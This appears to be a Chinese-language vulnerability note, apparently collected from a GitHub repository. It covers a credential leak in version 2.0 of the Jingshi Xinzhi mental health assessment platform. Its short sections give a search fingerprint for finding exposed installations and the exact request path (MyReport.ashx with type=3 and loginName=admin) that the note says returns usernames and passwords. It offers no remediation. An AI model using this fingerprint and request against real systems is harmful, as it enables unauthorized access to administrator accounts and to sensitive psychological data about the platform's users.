


**<font style="color:rgb(38, 38, 38);">一、漏洞简介</font>**<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">京师心智心理健康测评系统是一款由北京师范大学心理学专家指导研发的心理健康测评系统。京师心智心理健康测评系统存在信息泄露，攻击者构造特定参数可导致用户名密码泄露。  
</font>**<font style="color:rgb(38, 38, 38);">二、影响版本</font>**<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">京师心智心理测评健康管理平台V2.0  
</font>**<font style="color:rgb(38, 38, 38);">三、资产测绘</font>**<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">body="JS/ligerComboBox/ligerTree.js"  
</font>

<font style="color:rgb(38, 38, 38);">  
</font>**<font style="color:rgb(38, 38, 38);">四、漏洞复现</font>**<font style="color:rgb(38, 38, 38);"></font>

```java
 /FunctionModular/PersonalReport/Ajax/MyReport.ashx?type=3&loginName=admin
```



  


